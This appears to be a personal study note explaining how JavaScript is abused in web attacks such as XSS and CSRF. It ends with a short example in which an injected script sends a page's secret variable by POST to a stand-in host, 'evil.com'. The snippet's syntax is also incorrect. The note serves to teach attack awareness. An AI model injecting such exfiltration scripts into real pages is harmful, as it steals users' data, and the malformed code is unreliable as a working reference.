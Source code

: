 > [!motivation] Understanding JavaScript's Role in Web Exploits
> 
> JavaScript, a client-side programming language, is a **powerful tool for creating interactive web experiences**. However, its versatility and browser support also make it a **prime target for attackers seeking to exploit web applications**. 
>
> By understanding how JavaScript can be misused, developers can better protect their applications from common vulnerabilities like **Cross-Site Scripting (XSS) and Cross-Site Request Forgery (CSRF)**. 

> [!idea] JavaScript: A Double-Edged Sword
> 
> JavaScript is a **scripting language that runs in the user's web browser**, allowing for dynamic and interactive web pages. It can **manipulate the DOM**, **make HTTP requests**, and **access cookies and local storage**.
>
> While these capabilities enable rich web experiences, they can also be abused by attackers. Malicious JavaScript code injected into a web page can **steal sensitive data**, **hijack user sessions**, or perform unauthorized actions on behalf of the user. 
>

> [!example] A Simple JavaScript Exploit
>
>![[Pasted image 20240616221400.png]]

> [!example] A Simple JavaScript Exploit
>
>![[Pasted image 20240616221423.png]]

> [!example] A Simple JavaScript Exploit
>
>```js
><script> int secret=42; </script>
>...
><script> fetch('https://evil.com/receive',  {method, 'POST', body: secret})</script>
>```
>
>Suppose the server returns some HTML with a secret JavaScript variable. If the attacker could somehow add the second script, the browser will send a POST request to the attacker's server with the secret!

